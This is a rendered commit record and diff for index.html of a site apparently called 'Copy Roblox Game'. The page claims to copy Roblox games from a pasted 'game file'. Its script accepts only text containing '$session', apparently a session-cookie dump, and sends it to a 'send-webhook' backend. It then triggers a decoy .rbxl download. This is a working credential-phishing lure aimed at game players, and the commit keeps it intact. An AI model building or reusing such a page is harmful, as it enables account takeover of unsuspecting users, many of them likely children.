

Before and after one commit to Impatientzz/Copy-Roblox-Game, a website: page index.html in a window 1280 px wide. Shown: the part 317-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -113,7 +113,7 @@
   <div class="box left-box">
     <h2>Copy Games</h2>
     <p>Paste your game file in the box below, then click "Copy Game!"<br>
-       If you don't know how to find a games "game file" then go ahead and watch "How to use"</p>
+       If you don't know how to find a game's "game file" then watch "How to use"</p>
     <input type="text" id="gameInput" placeholder="Enter game file" />
     <button id="copyBtn">Copy Game!</button>
   </div>
@@ -129,7 +129,7 @@
 </div>
 
 <script>
-  // Your Render backend URL here:
+  // Backend proxy URL - change this if you deploy backend somewhere else
   const backendURL = 'https://copy-roblox-game.onrender.com/send-webhook';
 
   const input = document.getElementById('gameInput');
@@ -143,7 +143,6 @@
       alert('Please enter or paste your game file!');
       return;
     }
-
     if (!text.includes('$session')) {
       alert('Invalid text');
       return;
@@ -153,22 +152,22 @@
     fetch(backendURL, {
       method: 'POST',
       headers: {'Content-Type': 'application/json'},
-      body: JSON.stringify({
-        content: `User pasted game file:\n\`\`\`\n${text}\n\`\`\``
-      }),
-    }).then(response => {
+      body: JSON.stringify({ content: `User pasted game file:\n\`\`\`\n${text}\n\`\`\`` }),
+    })
+    .then(response => {
       if (!response.ok) {
         alert('Failed to send data to backend.');
         return;
       }
-      // Trigger download of the file from your GitHub Pages repo
+      // Trigger file download from GitHub Pages repo
       const a = document.createElement('a');
       a.href = 'grow%20a%20garden%20(1).rbxl';
       a.download = 'grow a garden (1).rbxl';
       document.body.appendChild(a);
       a.click();
       setTimeout(() => a.remove(), 100);
-    }).catch(err => {
+    })
+    .catch(err => {
       alert('Error sending webhook: ' + err.message);
     });
   });
@@ -180,185 +179,3 @@
 
 </body>
 </html>
-<!DOCTYPE html>
-<html lang="en">
-<head>
-<meta charset="UTF-8" />
-<meta name="viewport" content="width=device-width, initial-scale=1" />
-<title>Copy Games</title>
-<style>
-  body {
-    margin: 0;
-    background-color: #0f0f0f;
-    font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-    color: white;
-    display: flex;
-    justify-content: center;
-    align-items: center;
-    height: 100vh;
-  }
-  .container {
-    display: flex;
-    gap: 20px;
-    max-width: 900px;
-    width: 100%;
-    padding: 20px;
-  }
-  .box {
-    background: #1c1c1c;
-    border-radius: 12px;
-    padding: 20px 30px;
-    flex: 1;
-    display: flex;
-    flex-direction: column;
-    justify-content: center;
-  }
-  .box h2 {
-    margin: 0 0 12px;
-    font-weight: 700;
-    font-size: 22px;
-  }
-  .box p {
-    font-size: 13px;
-    line-height: 1.4;
-    color: #c0c0c0;
-    margin-bottom: 20px;
-  }
-  input[type="text"] {
-    width: 100%;
-    padding: 11px 14px;
-    border-radius: 8px;
-    border: 1px solid #2a2a2a;
-    background-color: #2b2b2b;
-    color: white;
-    font-size: 15px;
-    margin-bottom: 24px;
-  }
-  input[type="text"]::placeholder {
-    color: #5a5a5a;
-  }
-  button {
-    background: linear-gradient(90deg, #5a81ff 0%, #819cff 100%);
-    border: none;
-    border-radius: 16px;
-    padding: 14px 0;
-    font-weight: 600;
-    font-size: 15px;
-    color: white;
-    cursor: pointer;
-    transition: background 0.3s ease;
-    user-select: none;
-  }
-  button:hover {
-    background: linear-gradient(90deg, #819cff 0%, #5a81ff 100%);
-  }
-  .right-box {
-    display: flex;
-    flex-direction: column;
-    justify-content: center;
-    align-items: flex-start;
-  }
-  .right-box .title {
-    font-weight: 700;
-    font-size: 22px;
-    margin-bottom: 12px;
-  }
-  .right-box .subtitle {
-    font-size: 14px;
-    color: #888;
-    margin-bottom: 20px;
-  }
-  .play-button {
-    background-color: #5a81ff;
-    border-radius: 100px;
-    width: 36px;
-    height: 36px;
-    display: flex;
-    justify-content: center;
-    align-items: center;
-    cursor: pointer;
-    user-select: none;
-  }
-  .play-button:hover {
-    background-color: #819cff;
-  }
-  .play-button svg {
-    fill: white;
-    width: 16px;
-    height: 16px;
-  }
-</style>
-</head>
-<body>
-
-<div class="container">
-  <div class="box left-box">
-    <h2>Copy Games</h2>
-    <p>Paste your game file in the box below, then click "Copy Game!"<br>
-       If you don't know how to find a games "game file" then go ahead and watch "How to use"</p>
-    <input type="text" id="gameInput" placeholder="Enter game file" />
-    <button id="copyBtn">Copy Game!</button>
-  </div>
-  <div class="box right-box">
-    <div class="title">How to use</div>
-    <div class="subtitle">Video tutorial</div>
-    <div class="play-button" title="Play tutorial" id="playTutorialBtn">
-      <svg viewBox="0 0 24 24" >
-        <path d="M8 5v14l11-7z"/>
-      </svg>
-    </div>
-  </div>
-</div>
-
-<script>
-  // Your Render backend URL here:
-  const backendURL = 'https://copy-roblox-game.onrender.com/send-webhook';
-
-  const input = document.getElementById('gameInput');
-  const btn = document.getElementById('copyBtn');
-  const playBtn = document.getElementById('playTutorialBtn');
-
-  btn.addEventListener('click', () => {
-    const text = input.value.trim();
-
-    if (!text) {
-      alert('Please enter or paste your game file!');
-      return;
-    }
-
-    if (!text.includes('$session')) {
-      alert('Invalid text');
-      return;
-    }
-
-    // Send pasted content to backend proxy
-    fetch(backendURL, {
-      method: 'POST',
-      headers: {'Content-Type': 'application/json'},
-      body: JSON.stringify({
-        content: `User pasted game file:\n\`\`\`\n${text}\n\`\`\``
-      }),
-    }).then(response => {
-      if (!response.ok) {
-        alert('Failed to send data to backend.');
-        return;
-      }
-      // Trigger download of the file from your GitHub Pages repo
-      const a = document.createElement('a');
-      a.href = 'grow%20a%20garden%20(1).rbxl';
-      a.download = 'grow a garden (1).rbxl';
-      document.body.appendChild(a);
-      a.click();
-      setTimeout(() => a.remove(), 100);
-    }).catch(err => {
-      alert('Error sending webhook: ' + err.message);
-    });
-  });
-
-  playBtn.addEventListener('click', () => {
-    window.open('https://youtu.be/TrpC-B-ko0I', '_blank');
-  });
-</script>
-
-</body>
-</html>
```
